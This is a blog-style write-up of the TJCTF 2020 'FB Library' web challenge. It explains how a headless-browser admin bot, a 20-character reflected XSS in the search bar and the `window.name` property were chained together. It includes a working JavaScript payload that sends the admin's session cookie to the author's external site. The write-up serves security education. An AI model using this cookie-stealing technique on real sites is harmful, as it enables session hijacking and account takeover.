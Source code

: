 ```yaml
---
title: TJCTF 2020 FB Library Writeup
category: cyber-security
---
```


I want to make a writeup for this one because it was one of my favourites and I can't find a writeup for it yet on [CTFTime](https://ctftime.org/event/928/tasks/).

Here was the description:

![problem description](/assets/images/fb_library.png)

The [linked website](https://fb_library.tjctf.org/) had a login and registration system that then allowed you to view a catalog of books and then report them to the admin. When you reported, you would go to `/report?url=<book url>` with a success message. We realized we could make it `report` any valid url and it would then open a get request to that url

So for example, when I reported my website [http://uzpg.me](http://uzpg.me), I noticed a new GET request with a User-Agent `Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/80.0.3987.0 Safari/537.36`. The most important part here is the **HeadlessChrome** part which is a [Headless Browser](https://en.wikipedia.org/wiki/Headless_browser). A headless browser is an automated way of using a browser without human action.

This meant that we could try and access the cookies and data of this headless browser instance to compromise the `fb_library`. Indeed, the login system we noticed above had a `session` cookie that would log you in. This meant that if we could steal the value of that cookie, we would have admin access.

At first, I tried to report a url that had a `script` that sent me its cookies. Unfortunately, they were empty, because of [Same-Origin Policy](https://en.wikipedia.org/wiki/Same-origin_policy) which prevents a malicious website of accessing cookies of another different domain like the `fb_library` one. 

This meant, the only way I could execute my cookie stealer would be by embedding the payload on the `fb_library` domain. This meant finding another XSS on the website itself. We noticed Reflected XSS in the search bar that allowed you to look for books. But the length of the field was struncated AFTER 20 characters!!! 

Building a cookie stealer in 20 characters would be impossible, so we had to find another way. Some [funny posts](https://jlajara.gitlab.io/posts/2019/11/30/XSS_20_characters.html) had the idea of buying a short domain, but the admins told us no purchase was required. 

My teammate [Techno-Disaster](http://technodisaster.me) 	scoured the web and found the very interesting `window.name` [property](https://developer.mozilla.org/en-US/docs/Web/API/Window/name). This allows you to store a string across different websites. So for example, I can set its value on my own, and then if I redirect to their website, its value will stay the same. Do you see where I am going? :)

So our trick was to make it go to our website and then have a script that would change the `window.name` property to our payload, and then redirect it to the vulnerable search page by setting the query parameter to `<script>eval(name)`. This evaluates our payload stored in the `window.name` property and executes our cookie stealing payload.

```js
window.name = "window.location = 'http://uzpg.me/' + document.cookie;";
location = "https://fb_library.tjctf.org/search?q=<script>eval(name)/*"";
```

When executed, this `window.name` payload executed on the `fb_library` domain would redirect to my website + the cookie.

At that point, all I had to do was look at the cookie and then change my `session` cookie to log in as admin, and then I had the flag:

![flag](/assets/images/flag_lib.png)
